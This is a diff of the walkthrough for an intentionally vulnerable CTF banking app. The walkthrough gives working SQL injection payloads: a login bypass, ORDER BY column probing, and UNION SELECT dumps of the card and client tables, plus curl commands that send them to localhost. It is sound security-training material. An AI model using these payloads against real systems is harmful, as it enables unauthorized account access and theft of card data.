

Before and after one commit to Brano21/danubius-bank, a Markdown page: WALKTHROUGH.md, the part around one of its changes. Shown at 86% size. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/WALKTHROUGH.md
+++ b/WALKTHROUGH.md
@@ -3,9 +3,10 @@
 > **Intentionally vulnerable training app (CTF).** Run it only locally or in an
 > isolated environment. Never on a production or shared network.
 
-This guide shows **how to get in** and **where to click / what to call** to verify
-that tasks W1–W3 work. Flags are demo values from `.env` (format `RPC{...}`); real
-flags are managed by CTFd.
+This guide is **discovery-oriented**: for each task it shows **how to find** the
+vulnerability (what to probe, what the tell-tale response is) and then **how to
+exploit** it. The "Find it" steps double as a hint ladder for CTFd. Flags are demo
+values from `.env` (format `RPC{...}`); real flags are managed by CTFd.
 
 ---
 
@@ -14,66 +15,64 @@ flags are managed by CTFd.
 Prerequisites: **Docker Desktop** (running), ~16 GB RAM (for Ollama in week 3).
 
 ```bash
-cd danubius-bank
-cp .env.example .env           # adjust FLAG_* and passwords for your run
-docker compose up --build      # web on http://localhost:8080 (via the gate)
+cp .env.example .env
+WEEK=3 docker compose up --build      # gate on http://localhost:8080
 ```
 
-Modules unlock **cumulatively** via `WEEK` (in `.env` or inline):
+`WEEK` unlocks weeks cumulatively: `1` = web, `2` = + REST API, `3` = + assistant.
+Reset: `docker compose down -v && docker compose up --build`.
 
-| WEEK | Unlocks |
-|------|---------|
-| `1`  | web (week 1) |
-| `2`  | + REST API `/api/v1` (week 2) |
-| `3`  | + LLM assistant `/assistant` (week 3; first start downloads a ~2 GB model) |
+### Access via the gate
+`http://localhost:8080` is the **gate**, not the app. Sign in with a player
+account (demo `tester` / `test123`, from `gate/players.json`). Operator dashboard:
+`/_gate/admin` (`GATE_ADMIN_USER`/`GATE_ADMIN_PASSWORD`).
 
+Then get into the **bank**: either **register** (`/register` — email + password,
+you even get a 100 EUR welcome bonus) or use **W1-01** (login bypass) below.
+
+For **curl**, grab the gate cookie first and reuse the jar:
 ```bash
-WEEK=3 docker compose up --build   # everything at once (W1–W3)
+curl -s -c ck.txt -o /dev/null -X POST -d "username=tester" -d "password=test123" http://localhost:8080/_gate/login
 ```
 
-Reset to a clean vulnerable state:
+---
 
-```bash
-docker compose down -v && docker compose up --build
+## Recon — who are the users?
+
+`id 1` is **Jan Novak** (the account the login bypass lands on). Other seeded
+clients: Maria Horvathova (2), **Peter Kovac (3, VIP)**, Danubius Admin (4, admin),
+Eva Tomasova (5); registered players get ids 6+. Enumerate them once you have SQLi:
+
 ```
-
-### Access via the gate
-The app runs **behind a gate** — `http://localhost:8080` is the gate, not the app
-directly:
-1. Open `http://localhost:8080` → sign in with a **player account** (issued by the
-   organizer; demo ones in `gate/players.json`, e.g. `tester` / `test123`).
-2. Then use the bank as below; the gate logs every request under your identity.
-3. **Operator / monitoring:** `http://localhost:8080/_gate/admin` (admin from
-   `.env`: `GATE_ADMIN_USER` / `GATE_ADMIN_PASSWORD`) — live per-player activity,
-   outside the vulnerable app.
-
-> For **curl** verification, first grab the gate cookie (`_gate/login`) and reuse
-> the same cookie jar (`-b ck.txt`) on every call — see the smoke test below.
-
-### Getting "in" (into the bank)
-Two options: **register** (`/register` — email + 2× password, the account is
-saved, the email is not verified), or use **W1-01 (SQLi login bypass)** below.
+' UNION SELECT username, id::text, full_name, role FROM cards--     ← wrong table, no rows
+' UNION SELECT username, id::text, full_name, role FROM clients--   ← every client
+```
+…or log in as a specific one with `admin'-- `, `p.kovac'-- `, or walk account ids
+via the W2-01 BOLA endpoint.
 
 ---
 
 ## Week 1 — web (WEEK ≥ 1)
 
-### W1-01 — SQLi login bypass (A05)
-- **Where:** `Log in` → `/login`
-- **UI:** username `' OR '1'='1'-- `, any password → signed in as Jan Novak; the flag is on `Overview`.
-- **curl:**
-  ```bash
-  curl -s -c ck.txt --data-urlencode "username=' OR '1'='1'-- " --data-urlencode "password=x" http://localhost:8080/login
-  curl -s -b ck.txt http://localhost:8080/dashboard | grep -o 'RPC{[^}]*}'
-  ```
+### W1-01 — SQLi login bypass (A05) · surface: `/login`
+- **Find it:** log in with username `x'` (a lone quote) and any password. Instead
+  of "Invalid credentials" you get a server error / odd behaviour → your input is
+  breaking the SQL. That means the query is built by string concatenation.
+- **Exploit:** username `' OR '1'='1'-- `, any password → you're logged in as the
+  first row (Jan Novak). The flag is on **Overview**.
+```bash
+curl -s -b ck.txt -c ck.txt --data-urlencode "username=' OR '1'='1'-- " --data-urlencode "password=x" http://localhost:8080/login >/dev/null
+curl -s -b ck.txt http://localhost:8080/dashboard | grep -o 'RPC{[^}]*}'
+```
 
-### W1-02 — UNION SQLi card leak (A05)
-- **Where:** after login `Transactions` → `/transactions`
-- **`q`:** `' UNION SELECT card_number, expiry, card_holder, status FROM cards-- `
-- **curl:**
-  ```bash
-  curl -s -b ck.txt -G http://localhost:8080/transactions \
-    --data-urlencode "q=' UNION SELECT card_number, expiry, card_holder, status FROM cards-- " | grep -o 'RPC{[^}]*}'
-  ```
-- The flag is the "card number" of the VIP card (Peter Kovac).
+### W1-02 — UNION SQLi card leak (A05) · surface: `/transactions` search
+- **Find it:** search `x'` → error → injectable. Find the column count with
+  `' ORDER BY 5-- ` (errors) vs `' ORDER BY 4-- ` (ok) → **4 columns**. All shown
+  columns are text (amount is cast), so a UNION needs 4 text columns.
+- **Exploit:** dump the `cards` table:
+```
+' UNION SELECT card_number, expiry, card_holder, status FROM cards--
+```
+The VIP card's number is the flag (Peter Kovac's row). Enumerate other tables the
+same way (see Recon).
 
````
Also changed, not shown: other parts of WALKTHROUGH.md (+74 -88 lines).
